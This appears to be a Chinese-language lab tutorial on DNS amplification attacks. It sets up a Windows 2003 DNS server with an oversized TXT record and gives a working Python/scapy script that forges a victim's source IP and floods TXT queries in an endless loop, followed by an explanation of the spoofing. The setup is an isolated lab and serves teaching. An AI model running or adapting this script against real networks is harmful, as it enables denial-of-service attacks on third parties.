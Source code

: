 <h1>实验环境</h1>
<div>DNS服务器（10.61.1.175）：windows server 2003及自带的DNS服务器；
攻击机（10.61.1.177）：需要Python+scapy环境；
被攻击机（10.61.1.157）：网络连接正常的机器；</div>
<h1>搭建DNS服务器</h1>
<div>如何在win2003环境下搭建DNS服务器，网上教程一大把，自行查找。此处其实是在DNS服务器上创建一个异常（超大）的TXT记录，当黑客查询请求这条记录时，DNS服务器返回这条超长的TXT记录，达到放大攻击流量的效果。
<ul>
	<li>创建一个test.com域；</li>
	<li>在test.com域下新建主机，记录类型为A，记录名称为www，设置IP为10.61.1.175；</li>
	<li>在test.com域下新建资源记录，记录类型为TXT，记录名称为www，设置文件为任意一个字符串，长度尽量大，据说最大是4000字节；</li>
</ul>
</div>

<h1>DNS放大攻击脚本</h1>

	#!/usr/bin/env python
	from scapy.all import *
	a = IP(dst="10.61.1.175",src="10.61.1.157")
	b = UDP(dport=53)
	c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0)
	c.qd=DNSQR(qname="www.test.com",qtype="TXT",qclass="IN")
	p = a/b/c
	while 1:
		send(p)

<ul>
	<li>由于UDP的无连接性，可以实现反射攻击的目的，在IP层伪造源IP为被攻击机的IP地址10.61.1.157，目的IP就是DNS服务器的IP地址10.61.1.175;</li>
	<li>DNS服务器的服务器端口是53，在UDP层将目的端口设置为53;</li>
	<li>查询域名是www.test.com，查询的类型为TXT，也就是请求查询我们在DNS服务器上恶意设置的TXT记录，实现放大目的。</li>
